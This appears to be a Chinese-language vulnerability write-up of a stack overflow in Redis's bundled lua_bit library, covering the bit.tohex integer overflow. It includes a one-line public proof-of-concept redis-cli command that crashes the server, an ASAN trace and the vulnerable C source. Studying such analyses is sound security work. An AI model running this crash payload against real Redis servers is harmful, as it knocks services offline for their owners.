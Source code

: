   
Redis使用Lua 5.1，没有升级计划，因为不想为新的Lua功能破坏Lua脚本。因此，Lua的升级取决于Redis项目的维护者，于是Lua本身的漏洞也是Redis的攻击面之一。  
  
  
Redis有实现源代码，并直接链接到以下外部库：lua_cjson.o，lua_struct.o，lua_cmsgpack.O和lua_bit.o。本次的漏洞产生于lua_bit.o中。  
  
  
lua_bit库定义了12个功能函数，用于位操作。  
  
  
```
staticconststruct luaL_Reg bit_funcs[] = {  { "tobit",	bit_tobit },  { "bnot",	bit_bnot },  { "band",	bit_band },  { "bor",	bit_bor },  { "bxor",	bit_bxor },  { "lshift",	bit_lshift },  { "rshift",	bit_rshift },  { "arshift",	bit_arshift },  { "rol",	bit_rol },  { "ror",	bit_ror },  { "bswap",	bit_bswap },  { "tohex",	bit_tohex },  { NULL, NULL }};
```  
  
  
  
以tohex功能为例，tohex将第一个参数转换为十六进制字符串，十六进制的位数由可选的第二个参数的绝对值给出。  
  
  
```
y = bit.tohex(x [,n])
```  
  
##   
## PoC  
  
公开PoC来自一篇博客[2]，构造一个lua脚本，恶意调用bit.tohex即可触发服务器端的崩溃。  
  
  
```
src/redis-cli eval "return bit.tohex(1, -2147483648)" 0
```  
  
  
  
ASAN追踪漏洞，可以发现PoC在lua_bit.c:137引发了崩溃。  
  
  
```
==11282==ERROR: AddressSanitizer: unknown-crash#7 0x556b84e5e2ef in bit_tohex /opt/redis-7.2.0/deps/lua/src/lua_bit.c:137#8 0x556b84e1c7bd in luaD_precall /opt/redis-7.2.0/deps/lua/src/ldo.c:320#9 0x556b84e3f790 in luaV_execute /opt/redis-7.2.0/deps/lua/src/lvm.c:614#10 0x556b84e1dda4 in luaD_call /opt/redis-7.2.0/deps/lua/src/ldo.c:378#11 0x556b84e1af11 in luaD_rawrunprotected /opt/redis-7.2.0/deps/lua/src/ldo.c:116#12 0x556b84e1e292 in luaD_pcall /opt/redis-7.2.0/deps/lua/src/ldo.c:464#13 0x556b84e14d65 in lua_pcall /opt/redis-7.2.0/deps/lua/src/lapi.c:827#14 0x556b84ddbdbc in luaCallFunction /opt/redis-7.2.0/src/script_lua.c:1659#15 0x556b84cd6cf2 in evalGenericCommand /opt/redis-7.2.0/src/eval.c:536#16 0x556b84cd6eb0 in evalCommand /opt/redis-7.2.0/src/eval.c:546#17 0x556b84b8c571 in call /opt/redis-7.2.0/src/server.c:3519
```  
  
##   
## 漏洞成因  
  
定位到lua_bit.c:137，漏洞产生于bit_tohex函数中，栈溢出发生在对 buf[8] 的写入，可以断定该漏洞是由于整型 n 的溢出而触发的。  
  
  
```
static int bit_tohex(lua_State *L){  UBits b = barg(L, 1);  SBits n = lua_isnone(L, 2) ? 8 : (SBits)barg(L, 2);const char *hexdigits = "0123456789abcdef";char buf[8];int i;# 整型溢出→ if (n < 0) { n = -n; hexdigits = "0123456789ABCDEF"; }if (n > 8) n = 8;# 栈溢出，lua_bit.c:137→ for (i = (int)n; --i >= 0; ) { buf[i] = hexdigits[b & 15]; b >>= 4; }  lua_pushlstring(L, buf, (size_t)n);return 1;}
```  
  